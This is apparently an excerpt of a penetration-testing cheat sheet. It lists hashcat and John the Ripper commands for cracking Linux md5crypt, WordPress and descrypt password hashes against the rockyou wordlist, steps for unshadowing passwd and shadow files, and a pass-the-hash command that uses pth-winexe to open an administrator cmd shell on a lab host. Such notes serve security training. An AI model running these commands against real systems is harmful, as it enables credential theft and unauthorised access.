    ```
   1700 | SHA-512                                          | Raw Hash
   ```
   
   Create a .hash file with all the hashes you want to crack
   puthasheshere.hash:
   ```
   $1$O3JMY.Tw$AdLnLjQ/5jXF9.MTp3gHv/
   ```
   
   Hashcat example cracking Linux md5crypt passwords $1$ using rockyou:
   
   `hashcat --force -m 500 -a 0 -o found1.txt --remove puthasheshere.hash /usr/share/wordlists/rockyou.txt`
   
   Wordpress sample hash: $P$B55D6LjfHDkINU5wF.v2BuuzO0/XPk/
   
   Wordpress clear text: test
   
   Hashcat example cracking Wordpress passwords using rockyou:
   
  `hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt`

    -   Sample Hashes  
        [*http://openwall.info/wiki/john/sample-hashes*](http://openwall.info/wiki/john/sample-hashes)

    -   Identify Hashes  
    
        `hash-identifier`

    -   To crack linux hashes you must first unshadow them:  
    
        `unshadow passwd-file.txt shadow-file.txt  `
        `unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`

-   John the Ripper - Password Hash Cracking

    -   `john $ip.pwdump`

    -   `john --wordlist=/usr/share/wordlists/rockyou.txt hashes`

    -   `john --rules --wordlist=/usr/share/wordlists/rockyou.txt`

    -   `john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`

    -   JTR forced descrypt cracking with wordlist  
    
        `john --format=descrypt --wordlist  /usr/share/wordlists/rockyou.txt hash.txt`

    -   JTR forced descrypt brute force cracking  
    
        `john --format=descrypt hash --show`

-   Passing the Hash in Windows

    -   Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:  
          
        `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 `
          
        `pth-winexe -U administrator //$ip cmd`

